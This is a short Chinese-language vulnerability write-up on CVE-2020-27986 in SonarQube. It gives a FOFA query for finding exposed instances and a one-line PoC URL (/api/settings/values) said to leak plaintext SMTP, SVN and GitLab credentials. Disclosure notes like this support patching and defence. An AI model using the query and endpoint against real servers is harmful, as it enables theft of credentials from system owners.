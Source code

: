 # SonarQube api 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> SonarQube

## FOFA

> [!NOTE]
>
> app="sonarQube-代码管理"

## 漏洞复现

主页如下

![](http://wikioss.peiqi.tech/vuln/son-1.png)

漏洞POC

```
http://xxx.xxx.xxx.xxx/api/settings/values
```

![](http://wikioss.peiqi.tech/vuln/son-2.png)

可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![](http://wikioss.peiqi.tech/vuln/son-3.png)

## Goby & POC

> [!NOTE]
>
> SonarQube api Information leakage

![](http://wikioss.peiqi.tech/vuln/son-4.png)

